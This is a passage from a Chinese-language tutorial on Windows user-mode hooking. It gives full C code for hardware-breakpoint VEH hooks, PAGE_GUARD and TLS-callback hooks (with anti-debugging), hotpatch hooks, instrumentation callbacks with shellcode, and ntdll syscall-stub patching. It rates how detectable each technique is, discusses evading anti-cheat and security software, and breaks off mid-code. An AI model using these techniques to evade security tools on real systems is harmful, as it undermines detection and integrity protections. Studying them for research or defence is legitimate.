return EXCEPTION_CONTINUE_SEARCH;
}

// 对单个线程设置 Debug Register
BOOL SetThreadHwbp(HANDLE hThread, int drIndex, PVOID address) {
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_DEBUG_REGISTERS;

if (!GetThreadContext(hThread, &ctx)) return FALSE;

// 设置 DRn 地址
switch (drIndex) {
case 0: ctx.Dr0 = (DWORD64)address; break;
case 1: ctx.Dr1 = (DWORD64)address; break;
case 2: ctx.Dr2 = (DWORD64)address; break;
case 3: ctx.Dr3 = (DWORD64)address; break;
    }

// 配置 DR7：启用对应断点，条件=执行，长度=1字节
// DR7 格式：
// Bit 0,2,4,6: Local Enable for DR0-3
// Bit 16-17: Condition for DR0 (00=执行)
// Bit 18-19: Length for DR0 (00=1字节)
// 每个 DR 占 4 位 condition+length，从 bit 16 开始
    ctx.Dr7 &= ~(3ULL << (drIndex * 2));      // 清除 enable 位
    ctx.Dr7 |= (1ULL << (drIndex * 2));        // 设置 local enable
    ctx.Dr7 &= ~(0xFULL << (16 + drIndex * 4)); // 清除 condition+length
// condition=00 (执行), length=00 (1字节) → 无需额外设置

return SetThreadContext(hThread, &ctx);
}

// 清除单个线程的 Debug Register
BOOL ClearThreadHwbp(HANDLE hThread, int drIndex) {
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_DEBUG_REGISTERS;

if (!GetThreadContext(hThread, &ctx)) return FALSE;

switch (drIndex) {
case 0: ctx.Dr0 = 0; break;
case 1: ctx.Dr1 = 0; break;
case 2: ctx.Dr2 = 0; break;
case 3: ctx.Dr3 = 0; break;
    }
    ctx.Dr7 &= ~(1ULL << (drIndex * 2)); // 禁用

return SetThreadContext(hThread, &ctx);
}

// 对进程所有线程设置硬件断点
BOOL SetAllThreadsHwbp(int drIndex, PVOID address) {
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
if (hSnap == INVALID_HANDLE_VALUE) return FALSE;

    THREADENTRY32 te = { .dwSize = sizeof(te) };
    DWORD pid = GetCurrentProcessId();
    DWORD tid = GetCurrentThreadId();
BOOL success = TRUE;

if (Thread32First(hSnap, &te)) {
do {
if (te.th32OwnerProcessID == pid) {
                HANDLE hThread;
if (te.th32ThreadID == tid) {
// 当前线程需要特殊处理
                    hThread = GetCurrentThread();
                } else {
                    hThread = OpenThread(THREAD_SET_CONTEXT | THREAD_GET_CONTEXT | THREAD_SUSPEND_RESUME, 
FALSE, te.th32ThreadID);
if (!hThread) continue;
                    SuspendThread(hThread);
                }

if (!SetThreadHwbp(hThread, drIndex, address))
                    success = FALSE;

if (te.th32ThreadID != tid) {
                    ResumeThread(hThread);
                    CloseHandle(hThread);
                }
            }
        } while (Thread32Next(hSnap, &te));
    }
    CloseHandle(hSnap);
return success;
}

// 安装 VEH Hook
BOOL InstallVehHook(PVOID targetAddr, PVOID hookFunc) {
if (g_vehHookCount >= MAX_VEH_HOOKS) return FALSE;

// 注册 VEH 处理器（只需一次）
if (!g_vehHandle) {
        g_vehHandle = AddVectoredExceptionHandler(1, VehExceptionHandler);
if (!g_vehHandle) return FALSE;
    }

int drIndex = g_vehHookCount;
    g_vehHooks[drIndex].targetAddress = targetAddr;
    g_vehHooks[drIndex].hookFunction = hookFunc;
    g_vehHooks[drIndex].drIndex = drIndex;
    g_vehHookCount++;

// 对所有线程设置硬件断点
return SetAllThreadsHwbp(drIndex, targetAddr);
}

// 卸载 VEH Hook
BOOL RemoveVehHook(int drIndex) {
if (drIndex >= g_vehHookCount) return FALSE;

// 清除所有线程的硬件断点
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    THREADENTRY32 te = { .dwSize = sizeof(te) };
    DWORD pid = GetCurrentProcessId();

if (Thread32First(hSnap, &te)) {
do {
if (te.th32OwnerProcessID == pid) {
                HANDLE hThread = OpenThread(THREAD_SET_CONTEXT | THREAD_GET_CONTEXT | THREAD_SUSPEND_RESUME,
FALSE, te.th32ThreadID);
if (hThread) {
                    SuspendThread(hThread);
                    ClearThreadHwbp(hThread, drIndex);
                    ResumeThread(hThread);
                    CloseHandle(hThread);
                }
            }
        } while (Thread32Next(hSnap, &te));
    }
    CloseHandle(hSnap);
return TRUE;
}

// 处理新线程：新线程创建后也需要设置 DR
// 方案：Hook NtCreateThread/NtResumeThread 或使用 TLS Callback
```

### 检测难度：★★★☆☆

* 不修改目标函数的任何字节，完整性校验通过
* 但 Debug Registers 可以被读取（`GetThreadContext`）
* VEH 处理器可被枚举（`RtlAddVectoredExceptionHandler` 链表）

### 新线程处理方案

VEH Hook 最大痛点是**新线程不继承 DR 设置**。常见解法：

| 方案                    | 实现方式                       | 优缺点                |
| --------------------- | -------------------------- | ------------------ |
| TLS Callback          | `DLL_THREAD_ATTACH` 时设置 DR | 简单，但需 DLL 形态       |
| Hook `NtResumeThread` | 线程恢复前注入 DR                 | 覆盖面广，需 Inline Hook |
| 周期性巡检                 | 定时扫描新线程并补设 DR              | 有窗口期，实现简单          |

### 优点

* 零字节修改，目标函数完全干净
* 硬件断点由 CPU 触发，不需要修改任何内存

### 局限

* 硬件断点只有 4 个（DR0-DR3），最多同时 Hook 4 个地址
* 性能开销：每次触发需要进异常处理流程
* 反作弊可以清空 Debug Registers 或检测 VEH 链表
* 新创建的线程不会自动继承 DR 设置

---

## 1.5 PAGE_GUARD Hook（页面守卫 Hook）

### 技术定位

**几乎不用于生产**，仅作概念验证。利用 `PAGE_GUARD` 页属性触发异常拦截，但粒度是整页（4KB），同页其他函数访问也会触发，性能极差。

### 原理

利用 `PAGE_GUARD` 内存保护属性。对目标函数所在页设置 `PAGE_GUARD`，首次访问时触发 `STATUS_GUARD_PAGE_VIOLATION` 异常，在 VEH 处理器中进行拦截。触发后 Guard 位自动清除，需借助单步异常（TF 标志）重新设置。

### 完整实现

```c
#include <windows.h>

typedef struct _GUARD_HOOK {
    PVOID targetFunction;
    PVOID hookFunction;
    PVOID pageBase;          // 目标函数所在页的基地址
BOOL active;
} GUARD_HOOK;

GUARD_HOOK g_guardHook = {0};

LONG CALLBACK GuardPageHandler(PEXCEPTION_POINTERS pExInfo) {
    DWORD exCode = pExInfo->ExceptionRecord->ExceptionCode;

if (exCode == STATUS_GUARD_PAGE_VIOLATION) {
        PVOID faultAddr = pExInfo->ExceptionRecord->ExceptionAddress;

// 检查是否是我们监控的函数
if (faultAddr == g_guardHook.targetFunction) {
// 劫持执行流
            pExInfo->ContextRecord->Rip = (DWORD64)g_guardHook.hookFunction;
        }

// 设置单步标志 TF，让 CPU 执行完一条指令后触发 EXCEPTION_SINGLE_STEP
// 目的：在单步执行后重新设置 PAGE_GUARD（因为触发一次后 PAGE_GUARD 自动移除）
        pExInfo->ContextRecord->EFlags |= 0x100;

return EXCEPTION_CONTINUE_EXECUTION;
    }

if (exCode == EXCEPTION_SINGLE_STEP && g_guardHook.active) {
// 单步执行完毕，重新设置 PAGE_GUARD
        DWORD oldProtect;
        VirtualProtect(g_guardHook.pageBase, PAGE_SIZE, 
                      PAGE_EXECUTE_READ | PAGE_GUARD, &oldProtect);
return EXCEPTION_CONTINUE_EXECUTION;
    }

return EXCEPTION_CONTINUE_SEARCH;
}

BOOL InstallGuardHook(PVOID target, PVOID hook) {
    g_guardHook.targetFunction = target;
    g_guardHook.hookFunction = hook;
    g_guardHook.pageBase = (PVOID)((ULONG_PTR)target & ~0xFFF); // 页对齐
    g_guardHook.active = TRUE;

    AddVectoredExceptionHandler(1, GuardPageHandler);

    DWORD oldProtect;
return VirtualProtect(g_guardHook.pageBase, PAGE_SIZE, 
                         PAGE_EXECUTE_READ | PAGE_GUARD, &oldProtect);
}
```

### 检测难度：★★☆☆☆

* 不修改代码，但改变了页面属性

* VirtualQuery 可以发现页面有 PAGE_GUARD 标志

* 同页上其他函数的调用也会触发异常，性能极差

### 致命缺陷

* 整个页面（4KB）内的任何访问都会触发异常
* 如果目标函数所在页被频繁访问，性能几乎不可用
* 实际场景中几乎不使用，仅作为概念验证

> **对比 VEH Hook**：VEH 用硬件断点精确到字节；PAGE_GUARD 粒度是页。如需"不修改函数字节"的 Hook，应优先选 VEH。

---

## 1.6 TLS Callback Hook

### 技术定位

**早期执行时机利器**。TLS Callback 在 `DllMain` 和 `main` 之前执行，适合抢在目标初始化前安装 Hook，或配合 VEH 给新线程设置硬件断点。

### 原理

TLS（Thread Local Storage）Callback 是 PE 文件中注册的回调函数，在进程/线程创建和终止时被调用，且在 `DLL_PROCESS_ATTACH` **之前**执行。利用这个时机可以在程序的 `main` 函数之前就完成 Hook 安装。



### TLS Callback 触发时机

| Reason               | 触发时机                   | 典型用途             |
| -------------------- | ---------------------- | ---------------- |
| `DLL_PROCESS_ATTACH` | 进程加载模块时，**早于** DllMain | 极早 Hook、反调试      |
| `DLL_THREAD_ATTACH`  | 新线程创建时                 | 给新线程设 DR（配合 VEH） |
| `DLL_THREAD_DETACH`  | 线程退出时                  | 清理 per-thread 资源 |
| `DLL_PROCESS_DETACH` | 进程卸载模块时                | 卸载 Hook          |

### 完整实现

```c
#include <windows.h>

// 前置声明
void NTAPI TlsCallbackFunction(PVOID DllHandle, DWORD Reason, PVOID Reserved);

// TLS 目录声明（编译器会把这个放入 PE 的 TLS Directory）
#ifdef _WIN64
#pragma comment(linker, "/INCLUDE:_tls_used")
#pragma const_seg(".CRT$XLB")
EXTERN_C const PIMAGE_TLS_CALLBACK _tls_callback = TlsCallbackFunction;
#pragma const_seg()
#else
#pragma comment(linker, "/INCLUDE:__tls_used")
#pragma data_seg(".CRT$XLB")
EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallbackFunction;
#pragma data_seg()
#endif

// 我们的 Hook 逻辑
typedef int (WINAPI* fnMessageBoxW)(HWND, LPCWSTR, LPCWSTR, UINT);
fnMessageBoxW RealMessageBoxW = NULL;

int WINAPI FakeMessageBoxW(HWND hWnd, LPCWSTR lpText, LPCWSTR lpCaption, UINT uType) {
// 修改消息内容
return RealMessageBoxW(hWnd, L"HOOKED!", lpCaption, uType);
}

void NTAPI TlsCallbackFunction(PVOID DllHandle, DWORD Reason, PVOID Reserved) {
if (Reason == DLL_PROCESS_ATTACH) {
// 此时程序的 main/WinMain 还没执行
// 各种初始化也还没完成，但 kernel32/ntdll 已经加载

// 安装 IAT Hook（或任何其他 Hook）
        HMODULE hUser32 = LoadLibraryW(L"user32.dll");
if (hUser32) {
            RealMessageBoxW = (fnMessageBoxW)GetProcAddress(hUser32, "MessageBoxW");
// 这里可以安装 Inline Hook 等...
InstallHookEarly();
        }
    }
}

// TLS Callback 的高级用法：反调试
void NTAPI AntiDebugTlsCallback(PVOID DllHandle, DWORD Reason, PVOID Reserved) {
if (Reason == DLL_PROCESS_ATTACH) {
// 在最早期检测调试器
        BOOL debuggerPresent = FALSE;
CheckRemoteDebuggerPresent(GetCurrentProcess(), &debuggerPresent);
if (IsDebuggerPresent() || debuggerPresent) {
// 调试器存在，可以退出或做反制
ExitProcess(0);
        }

// 清除 PEB.BeingDebugged（如果被调试但 IsDebuggerPresent 被绕过）
// NtCurrentPeb()->BeingDebugged = 0; 
    }

if (Reason == DLL_THREAD_ATTACH) {
// 每个新线程创建时都会触发
// 可以在这里给新线程设置硬件断点（VEH Hook 的完美搭配）
SetThreadHwbp(GetCurrentThread(), 0, g_hookTarget);
    }
}
```

### 检测难度：★★☆☆☆

* PE 文件的 TLS Directory 可以被静态分析
* TLS Callback 数组的地址在 PE Header 中明确标注
* 但执行时机很早，某些检测机制可能还未初始化

### 用途

* 在程序最早期安装 Hook（先于 CRT 初始化）
* 反调试（在调试器完全 attach 前检测）
* 配合 VEH Hook，在每个新线程上自动设置硬件断点

---

## 1.7 Hotpatch Hook（热补丁 Hook）

### 技术定位

**已基本弃用（x64）**。利用微软为热补丁预留的 `mov edi,edi` + 前导 NOP 槽位实现短跳转 Hook。Windows x64 系统 DLL 不再使用此布局。

### 原理

微软为了支持热补丁，许多 x86 系统函数头部保留 `mov edi, edi`（2 字节 NOP）和前面 5 字节的 NOP 填充。利用这些空间写入短跳转 + 近跳转，实现不覆盖任何有效指令的 Hook。



### 完整实现

```c
#include <windows.h>

typedef struct _HOTPATCH_HOOK {
    PVOID pTarget;
    PVOID pDetour;
    BYTE savedPreamble[7];   // -5 到 +2 的原始字节
BOOL installed;
} HOTPATCH_HOOK;

// 检查函数是否支持 Hotpatch
BOOL IsHotpatchable(PVOID pFunction) {
    BYTE* p = (BYTE*)pFunction;

// 检查函数头：mov edi, edi (8B FF) 或 mov ecx, ecx (8B C9)
if (p[0] != 0x8B || (p[1] != 0xFF && p[1] != 0xC9))
return FALSE;

// 检查前面 5 字节是否为 NOP 或 INT 3
for (int i = 1; i <= 5; i++) {
if (p[-i] != 0x90 && p[-i] != 0xCC)
return FALSE;
    }
return TRUE;
}

BOOL InstallHotpatchHook(HOTPATCH_HOOK* hook) {
    BYTE* pFunc = (BYTE*)hook->pTarget;

if (!IsHotpatchable(hook->pTarget))
return FALSE;

// 备份原始字节
    memcpy(hook->savedPreamble, pFunc - 5, 7);

    DWORD oldProtect;
    VirtualProtect(pFunc - 5, 7, PAGE_EXECUTE_READWRITE, &oldProtect);

// 在 -5 位置写入 5 字节近跳转到 Hook 函数
// E9 [rel32] → jmp hook_function
    pFunc[-5] = 0xE9;
    *(int32_t*)(pFunc - 4) = (int32_t)((BYTE*)hook->pDetour - pFunc);

// 在 +0 位置把 mov edi,edi 改为短跳转到 -5
// EB F9 → jmp short -5 (相对于 +2 跳到 -5，偏移 = -7 = 0xF9)
    *(WORD*)pFunc = 0xF9EB;

    VirtualProtect(pFunc - 5, 7, oldProtect, &oldProtect);
    FlushInstructionCache(GetCurrentProcess(), pFunc - 5, 7);

    hook->installed = TRUE;
return TRUE;
}

BOOL RemoveHotpatchHook(HOTPATCH_HOOK* hook) {
if (!hook->installed) return FALSE;

    BYTE* pFunc = (BYTE*)hook->pTarget;
    DWORD oldProtect;

    VirtualProtect(pFunc - 5, 7, PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(pFunc - 5, hook->savedPreamble, 7);
    VirtualProtect(pFunc - 5, 7, oldProtect, &oldProtect);
    FlushInstructionCache(GetCurrentProcess(), pFunc - 5, 7);

    hook->installed = FALSE;
return TRUE;
}

// 使用示例
HOTPATCH_HOOK hpHook = {0};
hpHook.pTarget = GetProcAddress(GetModuleHandleA("kernel32.dll"), "CreateFileW");
hpHook.pDetour = MyHookedCreateFileW;
InstallHotpatchHook(&hpHook);
```

### 检测难度：★★☆☆☆

虽然利用了合法的热补丁机制，但 `mov edi, edi` 被改写一样可以被检测到。

### 现状说明（重要）

| 平台          | 是否可用    | 说明                                 |
| ----------- | ------- | ---------------------------------- |
| Windows x86 | 部分可用    | 旧版系统 DLL 可能有热补丁槽                   |
| Windows x64 | ❌ 基本不可用 | 系统 DLL 不再使用 `mov edi,edi` 前导       |
| 自编译代码       | 可用      | MSVC `/hotpatch` 编译选项生成 2 字节 NOP 槽 |

* Windows x64 系统函数不再使用 `mov edi, edi` 前导
* 主要适用于 32 位代码或旧版系统
* 现代 Windows 热补丁机制已变更（`/hotpatch` 生成 2 字节 NOP）

> **替代方案**：x64 上请使用 1.3 Inline Hook（MinHook/Detours）。

---

## 1.8 Instrumentation Callback Hook（用户态全局 syscall 回调）

### 技术定位

**Win10+ x64 特有机制**，红队/安全研究中用于监控 syscall 返回路径。一次设置可拦截所有系统调用从内核返回用户态的时刻，但无法拦截普通函数调用。

### 原理

Windows 提供 `NtSetInformationProcess` + `ProcessInstrumentationCallback`（信息类 = 40）。设置后，每次 syscall 从内核返回用户态时，内核会跳转到指定回调函数。



**进入 Callback 时的寄存器状态（x64）**：

- `R10` = 原始返回地址（syscall 返回后本来要去的地方）
- `RAX` = syscall 返回值
- 其余寄存器保持 syscall 返回时状态

### 完整实现（可编译 x64 ASM）

```c
#include <windows.h>
#include <winternl.h>

// 未导出的结构体
typedef struct _PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION {
    ULONG Version;    // 0 for x64, 1 for x86
    ULONG Reserved;
    PVOID Callback;
} PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION;

// NtSetInformationProcess 原型
typedef NTSTATUS(NTAPI* fnNtSetInformationProcess)(
    HANDLE ProcessHandle,
    ULONG ProcessInformationClass,
    PVOID ProcessInformation,
    ULONG ProcessInformationLength
);

#define ProcessInstrumentationCallback 40

// 全局变量
volatile LONG g_insideCallback = 0;  // 防止递归
PVOID g_callbackTarget = NULL;       // 我们要监控的函数

// Instrumentation Callback 入口点（必须是裸函数，手动管理栈）
// 进入时的寄存器状态：
//   R10 = 原始返回地址（syscall 返回后本来要去的地方）
//   RAX = syscall 返回值
//   所有其他寄存器保持 syscall 返回时的状态
extern void InstrumentationCallbackEntry(void);

// 汇编实现（MASM 语法，保存为 .asm 文件）
// InstrumentationCallbackEntry PROC
//     ; 保存所有寄存器（必须，因为我们要调用 C 函数）
//     push rax
//     push rcx
//     push rdx
//     push rbx
//     push rbp
//     push rsi
//     push rdi
//     push r8
//     push r9
//     push r10
//     push r11
//     push r12
//     push r13
//     push r14
//     push r15
//     pushfq
//     sub rsp, 28h          ; Shadow space for calls
//     
//     ; 防止递归（Callback 内部的 syscall 也会触发回调）
//     lock inc dword ptr [g_insideCallback]
//     cmp dword ptr [g_insideCallback], 1
//     jne skip_processing
//     
//     ; 调用 C 处理函数
//     ; RCX = 原始返回地址 (R10)
//     ; RDX = syscall 返回值 (RAX)
//     mov rcx, [rsp + 28h + 8*15 + 8 + 8*5]  ; R10 from saved regs
//     mov rdx, [rsp + 28h + 8*15 + 8]          ; RAX from saved regs
//     call InstrumentationCallbackHandler
//     
// skip_processing:
//     lock dec dword ptr [g_insideCallback]
//     
//     add rsp, 28h
//     popfq
//     pop r15
//     pop r14
//     pop r13
//     pop r12
//     pop r11
//     pop r10
//     pop r9
//     pop r8
//     pop rdi
//     pop rsi
//     pop rbp
//     pop rbx
//     pop rdx
//     pop rcx
//     pop rax
//     
//     ; 跳转到原始返回地址
//     jmp r10
// InstrumentationCallbackEntry ENDP

// 简化版 C 实现（使用内联汇编替代，仅适用于 MSVC x86 或需要单独 .asm）
// 对于纯 C 项目，可以使用 shellcode 方式：
BYTE g_callbackShellcode[] = {
0x50,                               // push rax
0x51,                               // push rcx
0x52,                               // push rdx
0x53,                               // push rbx
0x55,                               // push rbp
0x56,                               // push rsi
0x57,                               // push rdi
0x41, 0x50,                         // push r8
0x41, 0x51,                         // push r9
0x41, 0x52,                         // push r10
0x41, 0x53,                         // push r11
0x41, 0x54,                         // push r12
0x41, 0x55,                         // push r13
0x41, 0x56,                         // push r14
0x41, 0x57,                         // push r15
0x9C,                               // pushfq
0x48, 0x83, 0xEC, 0x28,             // sub rsp, 0x28
0x49, 0x89, 0xD1,                   // mov r9, rdx (保存)
0x4C, 0x89, 0xD1,                   // mov rcx, r10 (返回地址)
0x48, 0x89, 0xC2,                   // mov rdx, rax (syscall 返回值)
0xFF, 0x15, 0x00, 0x00, 0x00, 0x00, // call [rip+0] → 这里需要 patch 为实际地址
// ... 恢复寄存器 ...
0x48, 0x83, 0xC4, 0x28,             // add rsp, 0x28
0x9D,                               // popfq
0x41, 0x5F,                         // pop r15
0x41, 0x5E,                         // pop r14
0x41, 0x5D,                         // pop r13
0x41, 0x5C,                         // pop r12
0x41, 0x5B,                         // pop r11
0x41, 0x5A,                         // pop r10
0x41, 0x59,                         // pop r9
0x41, 0x58,                         // pop r8
0x5F,                               // pop rdi
0x5E,                               // pop rsi
0x5D,                               // pop rbp
0x5B,                               // pop rbx
0x5A,                               // pop rdx
0x59,                               // pop rcx
0x58,                               // pop rax
0x41, 0xFF, 0xE2                    // jmp r10
};

// C 处理函数
void InstrumentationCallbackHandler(PVOID returnAddress, ULONG64 syscallReturnValue) {
// returnAddress 是内核返回后要去的用户态地址
// 通过 returnAddress 可以判断是哪个 syscall（返回到 ntdll 的哪个 stub）

// 例：监控 NtReadVirtualMemory 的返回
// if (returnAddress == NtReadVirtualMemory_RetAddr) { ... }

// 也可以修改 RAX 来篡改 syscall 返回值
}

// 安装 Instrumentation Callback
BOOL InstallInstrumentationCallback() {
    fnNtSetInformationProcess NtSetInformationProcess = 
        (fnNtSetInformationProcess)GetProcAddress(
            GetModuleHandleA("ntdll.dll"), "NtSetInformationProcess");

if (!NtSetInformationProcess) return FALSE;

// 分配可执行内存给 shellcode
    PVOID pCallback = VirtualAlloc(NULL, sizeof(g_callbackShellcode), 
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(pCallback, g_callbackShellcode, sizeof(g_callbackShellcode));

// Patch shellcode 中的函数指针
// （实际使用时需要正确计算偏移）

    PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION info = {
        .Version = 0,  // x64
        .Reserved = 0,
        .Callback = pCallback
    };

    NTSTATUS status = NtSetInformationProcess(
        GetCurrentProcess(),
        ProcessInstrumentationCallback,
        &info,
sizeof(info)
    );

return NT_SUCCESS(status);
}

// 移除 Instrumentation Callback
BOOL RemoveInstrumentationCallback() {
    fnNtSetInformationProcess NtSetInformationProcess = 
        (fnNtSetInformationProcess)GetProcAddress(
            GetModuleHandleA("ntdll.dll"), "NtSetInformationProcess");

    PROCESS_INSTRUMENTATION_CALLBACK_INFORMATION info = {
        .Version = 0,
        .Reserved = 0,
        .Callback = NULL  // 设为 NULL 即可移除
    };

    NTSTATUS status = NtSetInformationProcess(
        GetCurrentProcess(),
        ProcessInstrumentationCallback,
        &info,
sizeof(info)
    );

return NT_SUCCESS(status);
}
```

### 检测难度：★★★☆☆

* 不修改任何函数代码

* 但可以通过 NtQueryInformationProcess 查询是否设置了 Instrumentation Callback

* 内核中 EPROCESS.InstrumentationCallback 字段直接可读

* 某些反作弊直接清零该字段

### 优点

* 一次设置，拦截所有系统调用返回

* 不需要知道具体函数地址

* 纯用户态操作，不需要内核驱动

### 局限

* 只能在 syscall 返回路径上拦截，无法拦截普通函数调用
* 防递归处理很关键（回调内的 syscall 会再次触发回调）
* 需要 `SeDebugPrivilege` 来设置**其他进程**的回调
* Callback 入口必须是汇编实现（需保存全部寄存器、遵守调用约定）

---

## 1.9 Syscall Hook（用户态直接系统调用劫持）

### 技术定位

**现代对抗核心**。随着直接 syscall（Hell's Gate / Halo's Gate / SysWhispers）普及，仅 Hook ntdll 导出函数已不够，需理解 syscall stub 结构与 SSN 动态解析。本节同时涵盖 Hook 方与绕过方。

### 原理

现代安全软件/反作弊会直接从 `ntdll.dll` 中读取 syscall 编号（SSN），绕过所有用户态 Hook 直接执行 `syscall` 指令。对抗方式是修改 ntdll 的 syscall stub 中的 SSN 或 `syscall` 指令本身。

**ntdll 标准 syscall stub（x64）**：

```
4C 8B D1                mov r10, rcx
B8 XX 00 00 00          mov eax, SSN        ; ← 方案1：改这里
F6 04 25 08 03 FE 7F 01 test [SharedUserData+0x308], 1
75 03                   jne +3
0F 05                   syscall             ; ← 方案2/3：改这里
C3                      ret
```



### Hell's Gate / Halo's Gate 简要说明

当 ntdll 被 Hook 后，`mov eax, SSN` 可能被篡改。开源技术通过**相邻未 Hook 的 syscall 函数推算 SSN**：

| 技术              | 思路                                      |
| --------------- | --------------------------------------- |
| **Hell's Gate** | 在 ntdll 中搜索目标函数 stub，直接读取 SSN           |
| **Halo's Gate** | 若目标被 Hook（stub 头被改），找上下相邻函数的 SSN ± 偏移推算 |
| **SysWhispers** | 编译期生成 syscall 汇编桩，运行时不需要解析 ntdll        |

### 完整实现（含多种绕过方案）

```c
#include <windows.h>

// ntdll 中标准的 syscall stub (x64):
// 4C 8B D1          mov r10, rcx
// B8 XX 00 00 00    mov eax, SSN
// F6 04 25 08 03 FE 7F 01   test byte ptr [SharedUserData+0x308], 1
// 75 03             jne +3 (使用 int 2e)
// 0F 05             syscall
// C3                ret
// CD 2E             int 2e
// C3                ret

// 方案 1：修改 SSN（让调用者不知情地调用另一个 syscall）
BOOL PatchSsn(const char* funcName, DWORD newSsn) {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    BYTE* pStub = (BYTE*)GetProcAddress(hNtdll, funcName);
if (!pStub) return FALSE;

// 验证 stub 结构
if (pStub[0] != 0x4C || pStub[1] != 0x8B || pStub[2] != 0xD1 || pStub[3] != 0xB8)
return FALSE;

// pStub[4..7] 是 SSN
    DWORD oldProtect;
    VirtualProtect(pStub + 4, 4, PAGE_EXECUTE_READWRITE, &oldProtect);
    *(DWORD*)(pStub + 4) = newSsn;
    VirtualProtect(pStub + 4, 4, oldProtect, &oldProtect);
return TRUE;
}

// 方案 2：替换 syscall 为 int 2e（触发不同的内核入口，可被内核 Hook 拦截）
BOOL PatchSyscallToInt2e(const char* funcName) {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    BYTE* pStub = (BYTE*)GetProcAddress(hNtdll, funcName);
if (!pStub) return FALSE;

// 找到 syscall 指令 (0F 05)
for (int i = 0; i < 32; i++) {
if (pStub[i] == 0x0F && pStub[i+1] == 0x05) {
            DWORD oldProtect;
            VirtualProtect(pStub + i, 2, PAGE_EXECUTE_READWRITE, &oldProtect);
            pStub[i] = 0xCD;     // int
            pStub[i+1] = 0x2E;   // 0x2E
            VirtualProtect(pStub + i, 2, oldProtect, &oldProtect);
return TRUE;
        }
    }
return FALSE;
}

// 方案 3：完整替换 syscall stub 为自定义跳转
BOOL PatchSyscallStub(const char* funcName, PVOID hookFunc) {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    BYTE* pStub = (BYTE*)GetProcAddress(hNtdll, funcName);
if (!pStub) return FALSE;

// 将整个 stub 替换为跳转到我们的函数
// 原始 stub 约 20 字节，足够放一个 14 字节绝对跳转
    DWORD oldProtect;
    VirtualProtect(pStub, 14, PAGE_EXECUTE_READWRITE, &oldProtect);

    pStub[0] = 0xFF;
    pStub[1] = 0x25;
    *(DWORD*)(pStub + 2) = 0;
    *(UINT64*)(pStub + 6) = (UINT64)hookFunc;

    VirtualProtect(pStub, 14, oldProtect, &oldProtect);
return TRUE;
}

// 方案 4：Syscall 重映射（将 ntdll 从磁盘重新映射一份干净副本）
// 用于对抗：检测 ntdll 是否被修改
HMODULE RemapCleanNtdll() {
// 从磁盘读取干净的 ntdll
    HANDLE hFile = CreateFileW(L"C:\\Windows\\System32\\ntdll.dll", 
